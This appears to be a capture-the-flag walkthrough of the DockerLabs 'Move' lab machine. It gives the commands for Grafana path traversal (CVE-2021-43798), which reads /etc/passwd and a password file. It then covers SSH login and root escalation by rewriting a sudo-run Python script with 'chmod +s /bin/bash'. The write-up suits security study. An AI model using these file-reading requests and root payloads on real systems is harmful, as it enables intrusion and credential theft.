










# Move — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | Grafana, Path Traversal, CVE-2021-43798, SSH, sudo Python script |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



Services found: Apache on port 80, SSH on 22, and **Grafana on port 3000**. Gobuster revealed a `maintenance.html` file on the Apache server.



`maintenance.html` referenced a password location at `/tmp/pass.txt` on the system — a significant hint about where credentials might be stored.

---

## 2. Grafana Path Traversal (CVE-2021-43798)

Navigated to Grafana at `http://<IP>:3000`. The default credentials `admin:admin` worked. After login, checked the Grafana version — it was vulnerable to **CVE-2021-43798**, a path traversal vulnerability in Grafana's plugin endpoint.



The vulnerability allows reading arbitrary files from the server by manipulating the plugin ID in the URL:

```
GET /public/plugins/<any-plugin-id>/../../../../../../../../etc/passwd
```

Used this to read `/etc/passwd` and enumerate system users:

```bash
curl "http://<IP>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd"
```



User `freddy` was present in the passwd file. Then read the password file hinted at by `maintenance.html`:

```bash
curl "http://<IP>:3000/public/plugins/alertlist/../../../../../../../../tmp/pass.txt"
```



Credentials: `freddy` : `[password from pass.txt]`

---

## 3. SSH Access

```bash
ssh freddy@<IP>
```



---

## 4. Privilege Escalation — Writable Python Script via sudo

```bash
sudo -l
```



`freddy` could run `python3 /opt/maintenance.py` as root with no password. Crucially, the script file was **writable by freddy**.



Replaced the contents of `maintenance.py` with a reverse shell or a direct privilege escalation payload:

```python
import os
os.system("chmod +s /bin/bash")
```

Or for an immediate root shell:

```python
import pty
pty.spawn("/bin/bash")
```



Executed via sudo:

```bash
sudo python3 /opt/maintenance.py
```



---

## Key Takeaways

**CVE-2021-43798 (Grafana Path Traversal) is trivially exploitable.** Any unauthenticated request to the plugin endpoint can read arbitrary files. Grafana versions 8.0.0–8.3.0 are affected. Always check Grafana version and restrict network access to the Grafana port.

**Hint files (`maintenance.html`) are deliberate breadcrumbs in CTFs but represent real misconfigurations.** Developers often leave comments or config files with internal paths or credentials.

**sudo + writable script = root.** When a sudo rule allows running a script with `NOPASSWD` and the script is world-writable or owned by the current user, it's equivalent to unrestricted root sudo. The permission check is on the interpreter (`python3`), not the script contents.
